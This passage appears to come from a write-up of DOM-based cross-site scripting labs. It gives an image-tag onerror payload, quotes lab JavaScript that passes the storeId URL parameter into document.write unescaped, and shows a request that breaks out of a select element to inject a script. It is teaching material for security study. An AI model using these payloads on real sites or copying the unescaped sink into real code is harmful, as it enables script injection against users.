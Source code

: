 There are many ways to execute. In search box,

```html
"><img src=x onerror=javascript:alert(1) />
```

---

## Lab - 4: DOM XSS in document.write sink using source location.search inside a select element

- This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

- Vulnerable JS function in this lab is

```javascript
var stores = ["London", "Paris", "Milan"];
var store = new URLSearchParams(window.location.search).get("storeId");
document.write('<select name="storeId">');
if (store) {
  document.write("<option selected>" + store + "</option>");
}
for (var i = 0; i < stores.length; i++) {
  if (stores[i] === store) {
    continue;
  }
  document.write("<option>" + stores[i] + "</option>");
}
document.write("</select>");
```

Test by adding storeId as a new URL parameter and found a new item in drop down

```
GET /product?productId=1&storeId=qwerasdf HTTP/1.1
```

Resulting DOM is as follow.

```html
<select name="storeId">
  <option selected="">qwerasdf</option>
  ...
</select>
```

To exploit,

```
GET /product?productId=1&storeId=</select><script>alert(1);</script> HTTP/1.1
```

---

## Lab - 5: DOM XSS in innerHTML sink using source location.search

